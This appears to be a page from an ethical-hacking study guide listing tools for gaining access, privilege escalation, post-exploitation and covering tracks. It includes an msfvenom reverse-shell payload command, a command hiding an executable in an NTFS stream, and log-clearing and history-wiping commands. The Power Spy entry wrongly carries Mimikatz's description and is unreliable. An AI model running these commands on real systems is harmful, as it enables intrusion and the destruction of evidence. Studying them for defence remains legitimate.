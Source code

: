```yaml
---
title: 🖥️ System Hacking
description: Gaining unauthorized access to a target's systems and applications.
slug: guide/system
head:
  - tag: title
    content: System Hacking
---
```



System hacking is the process of gaining unauthorized access to a target's systems and applications.

## Gaining access

Gaining access is the process of exploiting vulnerabilities in a target's systems and applications to gain unauthorized access.

<LinkCard
  title="Responder"
  description="Responder is a tool used to capture NTLMv1 and NTLMv2 hashes from Windows systems."
  href="https://github.com/lgandx/Responder"
  target="_blank"
/>

<LinkCard
  title="L0pthCrack"
  description="L0pthCrack is a password auditing and recovery tool."
  href="https://l0phtcrack.gitlab.io/"
  target="_blank"
/>

<LinkCard
  title="Armitage"
  description="Armitage is a graphical cyber attack management tool for Metasploit."
  href="https://www.fastandeasyhacking.com/"
  target="_blank"
/>

<LinkCard
  title="Ninja Jonin"
  description="A general-purpose fully customizable software to control a remote computer behind any NAT, Firewall and proxy."
  href="https://github.com/ErAz7/Ninja"
  target="_blank"
/>

<LinkCard
  title="ImmunityDebugger"
  description="Immunity Debugger is a powerful way to write exploits, analyze malware, and reverse engineer binary files."
  href="https://github.com/kbandla/ImmunityDebugger"
  target="_blank"
/>

## Metasploit

Metasploit is a penetration testing framework that allows security professionals to find and exploit vulnerabilities in systems and applications.

```bash
# Generate a reverse tcp payload for Windows
msfvenom -p windows/meterpreter/reverse_tcp --platform windows \
    -a x86 -o file.exe LHOST=YOUR_IP LPORT=YOUR_PORT
```

<LinkCard
  title="Metasploit"
  description="Metasploit is a penetration testing framework."
  href="https://www.metasploit.com/"
  target="_blank"
/>

## Exploit sites

Exploit sites are repositories of information about known vulnerabilities in software and hardware.

<LinkCard title="ExploitDB" href="https://www.exploit-db.com" target="_blank" />

<LinkCard title="VulDB" href="https://vuldb.com/" target="_blank" />

<LinkCard title="Vulners" href="https://vulners.com/" target="_blank" />

<LinkCard
  title="CIRCL CVE Search"
  href="https://cve.circl.lu/"
  target="_blank"
/>

<LinkCard
  title="CVE Details"
  href="https://www.cvedetails.com/"
  target="_blank"
/>

## Privilege escalation

Privilege escalation is the process of gaining higher privileges on a target's system or application.

<LinkCard
  title="Metasploit"
  description="Metasploit is a penetration testing framework."
  href="https://www.metasploit.com/"
  target="_blank"
/>

<LinkCard
  title="Mimikatz"
  description="Mimikatz is a tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory."
  href="https://github.com/ParrotSec/mimikatz"
  target="_blank"
/>

## Post-exploitation

Post-exploitation is the process of maintaining access to a target's system or application after gaining unauthorized access.

<LinkCard
  title="Power Spy"
  description="Power Spy is a tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory."
  href="https://www.power-spy.com/"
  target="_blank"
/>

<LinkCard
  title="Spytech SpyAgent"
  description="Spytech SpyAgent is a powerful computer monitoring software."
  href="https://www.spytech-web.com/spyagent/"
  target="_blank"
/>

<LinkCard
  title="Covert TCP"
  description="Covert TCP is a tool for creating covert channels over TCP."
  href="https://github.com/zaheercena/Covert-TCP-IP-Protocol"
  target="_blank"
/>

### NTFS Alternate Data Streams

NTFS streams are a feature of the NTFS file system that allows files to contain multiple streams of data.

This can be used to hide data within a file without altering its size or appearance.

```sh
# Create a file with an alternate data stream
echo "This is a hidden message" > file.txt:stream

# Insert a file as an alternate data stream
type exploit.exe > file.txt:file.exe
```

### White space stenography

White space stenography is the process of hiding data by using white space characters in a file.

```sh
snow -C -m "I am lying" -p "hello world" input.txt output.txt
```

<LinkCard
  title="snow"
  description="Text-based steganography that uses whitespace to conceal information."
  href="https://github.com/mattkwan-zz/snow"
  target="_blank"
/>

### Image steganography

Image steganography is the process of hiding data within an image file.

<LinkCard
  title="OpenStego"
  description="OpenStego is a free and open-source software for image steganography."
  href="https://github.com/syvaidya/openstego"
  target="_blank"
/>

<LinkCard
  title="Stegonline"
  description="Stegonline is a web-based tool for image steganography."
  href="https://stegonline.georgeom.net/"
  target="_blank"
/>

<LinkCard
  title="QuickStego"
  description="QuickStego is a free and easy-to-use software for image steganography."
  href="http://www.quickcrypto.com/free-steganography-software.html"
  target="_blank"
/>

## Clear logs and data

Clear logs is the process of deleting or modifying logs on a target's system or application to cover tracks.

<LinkCard
  title="DBAN"
  description="Darik's Boot and Nuke is a free data destruction program."
  href="https://dban.org/"
  target="_blank"
/>

<LinkCard
  title="CCleaner"
  description="CCleaner is a utility program used to clean potentially unwanted files and invalid Windows Registry entries from a computer."
  href="https://www.ccleaner.com/"
  target="_blank"
/>

### Windows

```sh
# Clear logs using auditpol
# https://learn.microsoft.com/it-it/windows-server/administration/windows-commands/auditpol
auditpol /clear /y

# Clear logs using wevtutil
# https://learn.microsoft.com/it-it/windows-server/administration/windows-commands/wevtutil
wevtutil cl System
wevtutil cl Application
# ...

# Encrypt deleted data using cipher
# https://learn.microsoft.com/it-it/windows-server/administration/windows-commands/cipher
cipher /w:C:
```

<LinkCard
  title="Clear Event Viewer Logs"
  description="Clear Event Viewer Logs is a tool for clearing event logs on Windows systems."
  href="https://gist.github.com/amnweb/0ddb3fdb7ec5da0f0c39f0e9aa9fdd56"
  target="_blank"
/>

### Linux

```sh
# Disable bash history
export HISTSIZE=0

# Clear bash history
history -c # all
history -w # current session

# Shred a file making it unrecoverable
shred file.txt
```

